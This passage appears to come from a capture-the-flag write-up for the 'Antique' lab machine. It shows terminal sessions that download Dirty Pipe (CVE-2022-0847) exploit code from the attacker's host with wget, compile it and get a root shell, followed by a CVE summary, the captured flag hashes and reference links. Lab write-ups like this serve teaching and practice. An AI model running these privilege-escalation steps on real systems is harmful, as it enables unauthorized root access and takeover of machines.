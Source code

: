 ```bash
lp@antique:~$ wget 10.10.14.18:4444/exploit-1.c
lp@antique:~$ gcc -o dirtyPipe exploit-1.c
lp@antique:~$ ./dirtyPipe 
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)
whoami
root
hostname -I
10.10.11.107 dead:beef::250:56ff:feb9:62bf 
```
We rooted the system. Anyway, the [github repo] present another exploit:
```bash
lp@antique:~$ wget 10.10.14.18:4444/exploit-2.c
lp@antique:~$ gcc -o dirtyPipe exploit-2.c 
lp@antique:~$ ./dirtyPipe /bin/bash
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
$ whoami
lp
$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```
But this attack vector did not succeed.

## CVE
### [CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)
A flaw was found in the way the "flags" member of the new pipe buffer structure was lacking proper initialization in copy_page_to_iter_pipe and push_pipe functions in the Linux kernel and could thus contain stale values. An unprivileged local user could use this flaw to write to pages in the page cache backed by read only files and as such escalate their privileges on the system. 

## Machine flags
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | 2ee45db297cab42446914aab6b01c739 | No | 06-06-2022|
| Root | 53f7087b4b740ebb96d38957583c47e0 | No | 06-06-2022|

## References
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-telnet
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847
- https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
